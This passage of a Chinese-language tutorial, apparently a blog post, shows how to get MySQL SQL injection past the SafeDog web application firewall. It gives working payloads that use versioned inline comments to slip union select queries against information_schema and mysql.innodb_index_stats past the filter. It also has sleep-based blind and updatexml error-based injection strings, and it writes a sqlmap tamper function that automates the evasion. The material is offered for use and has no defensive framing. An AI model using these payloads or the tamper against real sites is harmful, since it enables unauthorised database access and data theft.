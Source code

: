 再测试select xxx from xxx发现被拦截。

说明select后面跟任意字符再加上from再加上任意字符就会被拦截。  

这里只需要将select放进内联即可绕过，也可以像之前一样在from前面加两个内联`/*!77777cz*/`，我这里为了简洁就只写一种。  
查表名

`-1' union /*!11440select*/ group_concat(table_name),2 from
information_schema.tables where table_schema=database/*!77777cz*/()#`

![]()

  

还可以用mysql>5.6版本的新特性,mysql库多了两个新表,innodb_index_stats 和 innodb_table_stats

  
这两个表是数据库自动设置的用于记录更改和新创建的数据库和表的信息，但准确的说是保存最近的数据库变动记录。

  

安全狗没有对这两个关键字进行限制。

  
具体怎么查爆内容看这篇文章（https://www.jianshu.com/p/6eba3370cfab）  
查表名  

`1' union /*!11440select*/ group_concat(table_name),2 from
mysql.innodb_index_stats where database_name=database/*!()*/#`

## 时间盲注和报错

经测试  
sleep()不会被拦但sleep()里面加数字就会被拦

updatexml()不会被拦，但是能执行的updatexml(1,1,0)会被拦截  
都可以用内联进行绕过

`lucy ' /*!11440or*/ /*!11440sleep(3)*/#  
-1'AND updatexml/*!77777cz*/(1,version(),0)#`

最基本的绕过方式已经找到，但我们的目的是编写sqlmap tamper来一键化过狗,先将上面的方法写成tamper来进行测试

  
tamper的编写很简单参考这篇https://www.jianshu.com/p/c24727dd1f7a

  
我这里简单介绍下payload替换部分，假如在服务器上AND被拦截，我们想用内联注释/!11444AND/绕过，就需要这样写

  

def tamper(payload, **kwargs):  
       payload=payload.replace('AND','/*!11444AND*/')  

  

其他的order、union、sleep等都是同样的方法。

  
在测试tamper的时候将sqlmap等级调整为v3这样可以显示使用到的语句  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210816090627.png)
